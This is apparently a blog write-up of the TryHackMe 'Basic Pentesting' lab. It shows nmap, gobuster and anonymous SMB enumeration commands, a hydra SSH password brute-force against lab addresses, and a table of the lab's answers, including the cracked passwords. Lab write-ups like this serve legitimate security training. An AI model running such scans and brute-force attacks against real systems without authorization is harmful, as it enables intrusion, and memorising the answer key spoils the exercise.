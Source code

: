 ```yaml
---
layout: post
title: 'Tryhackme: Basic Pentesting'
date:  2025-06-17 23:00:00 +0530 
categories: [Tryhackme]
tags: [hacking, tryhackme, Agent_Sudo,sudo, apt, ssh, ftp,smb] # TAG names should always be lowercase 
render_with_liquid: false
media_subpath: /images/Basic_pentesting/

---
```


# Tryhackme: Basic Pentesting — 17 June 2025

![TryHackMe Logo](THM.png)

![Basic Pentesting](BasicPen.png)

---

# 🕵️ Web App Testing & Privilege Escalation — Task 1

## 🔍 Nmap Scan

**Command:**
```bash
sudo nmap -T4 -n -sC -sV -Pn -p- -oN networkScan.txt 10.10.242.113
```
![Nmap Scan Screenshot](nmap_scan.png)

---

## 📂 Directory Scan (Gobuster)

**Command:**
```bash
gobuster dir -u http://10.10.93.33/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-directories.txt -o directory_scan.txt
```
![Directory Scan Screenshot](directory_scan.png)

---

## 🗂️ SMB Enumeration

**List SMB Shares:**
```bash
smbclient -L //10.10.125.85/ -N
```
![SMB Shares](smb.png)

**Access Anonymous Share:**
```bash
smbclient //10.10.125.85/Anonymous -N
```
![SMB Anonymous](smb_u.png)
![SMB Anonymous Terminal](smb_t_u.png)

---

## 🔑 SSH Password Crack (Hydra)

**Command:**
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.242.113
```
![Hydra SSH Crack](ssh_hydra.png)

---

## ❓ Questions and Answers

| #  | Question                                                                 | Answer                                               |
|----|--------------------------------------------------------------------------|------------------------------------------------------|
| 1  | What is the name of the hidden directory on the web server (no `/`)?     | `development`                                        |
| 2  | What is the username?                                                    | `jan`                                                |
| 3  | What is the password?                                                    | `armando`                                            |
| 4  | What service do you use to access the server (abbreviation, all caps)?   | `SSH`                                                |
| 5  | What is the name of the other user you found (all lower case)?           | `kay`                                                |
| 6  | What is the final password you obtain?                                   | `heresareallystrongpasswordthatfollowsthepasswordpolicy$$` |

---

## 🎉 Happy Hacking!

![Charlie Hunnam GIF](https://media2.giphy.com/media/v1.Y2lkPTc5MGI3NjExOWk4anV3OXV2cGt1a2F3aHdjdGd6YmhudXJ0aTBleG91anZ1amQ3YyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/jBOOXxSJfG8kqMxT11/giphy.gif)



